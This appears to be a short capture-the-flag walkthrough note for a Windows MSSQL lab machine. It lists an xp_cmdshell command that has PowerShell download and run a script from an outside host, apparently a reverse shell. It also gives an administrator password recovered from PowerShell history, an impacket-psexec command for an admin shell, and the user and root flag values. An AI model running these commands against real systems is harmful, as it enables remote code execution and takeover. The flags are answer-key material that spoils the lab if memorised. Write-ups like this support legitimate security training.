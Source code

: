 - Tags: #windows #mssql #psexec
- MSSQL Shell
	- ```powershell
	  xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.10.14.147:8000/rv.ps1\")
	  ```
- **User flag** at `C:\users\sql_svc\Desktop\user.txt`
	- 3e7b102e78218e935bf3f4951fec21a3
	  background-color:: green
- Administrator password found on shell #history
	- `C:\users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
		- #+BEGIN_CAUTION
		  /user:administrator MEGACORP_4dm1n!!
		  #+END_CAUTION
- #privesc: Get an administrative shell via psexec
	- ```bash
	  impacket-psexec 'administrator:MEGACORP_4dm1n!!@10.129.40.162'
	  ```
- **Root flag** at `C:\users\Administrator\Desktop\root.txt`
	- b91ccec3305e98240082d4474b848528
	  background-color:: green